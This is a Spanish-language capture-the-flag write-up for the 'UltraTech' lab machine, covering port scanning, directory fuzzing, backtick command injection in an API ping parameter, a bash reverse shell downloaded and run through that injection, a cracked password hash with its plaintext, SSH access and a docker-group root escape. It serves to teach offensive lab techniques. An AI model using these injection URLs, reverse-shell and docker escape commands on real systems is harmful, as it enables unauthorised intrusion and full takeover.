 <h1 align="center"> UltrTech </h1>

# INTRODUCCIÓN

Nos enfrentamos contra la máquina UltraTech. Es una grey-box, y la unica información que tenemos es el nombre de la compañia y su servidor ip.

# ENUMERACIÓN

Test de conectividad

```
ping <IP>
```

![image](https://github.com/user-attachments/assets/925bfb09-e1e6-400a-bdaa-fcc3d26ceac3)

Enumeración de puertos

![image](https://github.com/user-attachments/assets/369c2400-bbe1-49bf-b7b8-306d6de87737)

- 21 - ftp
- 22 - ssh
- 8081 - http - Node.js Express framework

Si hacemos un escaner más intenso encontraremos otro puerto 

![image](https://github.com/user-attachments/assets/c4eddcb0-1c45-491d-88d0-d9873020f558)

- 31331/tcp - http Apache httpd 2.4.29 (Ubuntu)

Como vemos tenemos 2 puertos usando la aplicación web.

# FOOTHOLD

Ahora que sabemos los servicios que corren, es tiempo de explotar. 

Vamos a explorar un poco lo que vemos.

![image](https://github.com/user-attachments/assets/949a6b4e-be5c-44ae-97e7-fdc0c148a37d)

Nos encontramos esto en el puerto 8081 que nos da información sobre la API "UltraTech API v0.1.3"

![image](https://github.com/user-attachments/assets/9e1a268f-dd3e-443a-8c87-27db8913d9ba)

En este puerto nos encontramos ya cosas jugosas.

En el apartado de correo nos encontramos una información sobre dicho correo "/ultratech@yopmail.com" puede que nos sirva o no pero nosotros recolectamos la info.

Como vemos que no encontramos muchas mas cosas importantes que yo considere vamos a probar con un fuzeo

![image](https://github.com/user-attachments/assets/7e156d6a-6de2-422c-9371-dc728c935521)

![image](https://github.com/user-attachments/assets/51f44401-12a9-4415-a61f-c011671f9936)

Nos encontramos con varios directorios y inspeccionando, /js podría tener algo interesante

Nos encontramoe el archivo "api.js" el cual chekea el status de la api, haciendo pings "getAPIURL" al puero 8081, sabiendo esto probemos a irnos al puerto 8081 y poner dicha ruta.

```
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

![image](https://github.com/user-attachments/assets/eefd84f5-dfb9-4130-90fd-3b3786b898ac)

VEmos que funciona perfectamente, intentemos hacer una inserción de comandos

![image](https://github.com/user-attachments/assets/f2168265-179f-4d98-a83c-02463ac739f8)

Después de estar un rato buscando, la forma de "escapar" para poder inyectar comandos es tan simple como poner un "`" la url : 

![image](https://github.com/user-attachments/assets/ff794de9-5f4a-4ccc-8761-3a45d0e95c86)

Encontramos la base de datos en la que esta "utech.db.sqlite" pero si podemos hacer esto podemos intentar también entrar con una rev shell.

Creamos una: 

```
echo "bash -i >& /dev/tcp/10.10.78.225/4242 0>&1" > shell.sh
```

![image](https://github.com/user-attachments/assets/dcae2792-20b4-430e-a092-9ff6608a991e)

Posteriormente en la url descargamos dicho archivo y lo ejecutamos.

![image](https://github.com/user-attachments/assets/81e8dfae-3c2d-4202-aa4d-ab52e203d25c)

```
http://10.10.203.247:8081/ping?ip=`wget%20http://10.10.78.225:8000/shell.sh%20shell.sh`
http://10.10.203.247:8081/ping?ip=`bash shell.sh`
```

ATENCIÓN DEBEREMOS TENER ABIERTO UN SERVIDOR HTTP PARA LA DESCARGA Y UN NC

```
python3 -m http.server
nc -lvnp 4242
```

![image](https://github.com/user-attachments/assets/1d5fc2e7-388d-46f7-a0fa-55839b7ed749)

Estamos dentro!!!

# EXPLOTACIÓN

Posteriormente al haber entrado vamos a ver si tenemos disponibilidad de algo.

![image](https://github.com/user-attachments/assets/10fe11a4-312d-4201-98bf-75fb4a6dc14d)

![image](https://github.com/user-attachments/assets/3f276418-95ad-4afa-9d98-0f53221e8c1c)

Conseguimos dos hashes probemos a descifrarlos.

"r00t:f357a0c52799563c7c7b76c1e7543a32"

Podemos utilizar hashcat o john, pero probaremos si podemos hacerlo en la crackstation.

![image](https://github.com/user-attachments/assets/9b60706a-4f1a-491a-b5c4-1506adeec89d)

La tenemos 

r00t:n100906

Gracias a estas claves podemos entrar por ssh

![image](https://github.com/user-attachments/assets/dd0fc3a0-ed61-4855-b3cf-867a888494ee)

![image](https://github.com/user-attachments/assets/00454f19-4f0e-4f87-b0d4-e618c3a916d5)

Algo importante a resaltar esque pertenemos al grupo "docker"

![image](https://github.com/user-attachments/assets/b3f168c1-b8b8-4940-b6ea-7f617bd0871c)

Veamos si podemos tirar de ahi

![image](https://github.com/user-attachments/assets/b65bc0c5-3be0-4dfc-980a-598ff60c1638)

Guay creo que hemos encontrado el vector por donde conseguir el root, vemos que hay una imagen de bash, veamos si podemos ejecutarla.

he encontrado información por aquí [docker](https://gtfobins.github.io/gtfobins/docker/)

Nos dice que para generar una shell, podemos destrozar restricciones interactivas y crear una imagen.


```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

la diferencia esque nuestra sesión se llama "bash" con lo cual lo cambiaremos por eso y probaremos a ver si funciona.

![image](https://github.com/user-attachments/assets/d84b1b0c-b526-4f79-89aa-dbf462bc7516)

GG!!!!!!

si queremos sacar las cables ssh:

![image](https://github.com/user-attachments/assets/d072eed1-78a4-49a3-b6f6-df3586aaffa0)










